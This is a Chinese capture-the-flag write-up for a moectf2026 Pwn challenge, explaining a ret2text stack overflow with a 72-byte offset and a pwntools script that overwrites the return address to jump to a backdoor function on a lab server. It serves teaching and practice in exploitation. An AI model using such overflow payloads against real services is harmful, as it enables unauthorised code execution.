



# 走后门


1. 题目来源：moectf2026
2. 题目方向：Pwn；知识点：ret2text

## 解题思路



基础的ret2text题型

首先v1输入个足够大的数，因为这是read的第三个参数，我们要利用read进行栈溢出。然后就会走到`return read`，后门函数`backdoor`如下



偏移量构造：0x40也就是64，64位的程序寄存器是64位。偏移量就是64+8=72

72后就可以覆盖返回地址了，这里让其返回到backdoor

```python
from pwn import *
r=remote('192.168.1.8',56970)

v1=123
backdoor=0x40120E


r.sendlineafter(b"So how many do you want to give?",b"123")
payload = flat([cyclic(72),backdoor])
r.send(payload)
r.interactive()
```

## Flag


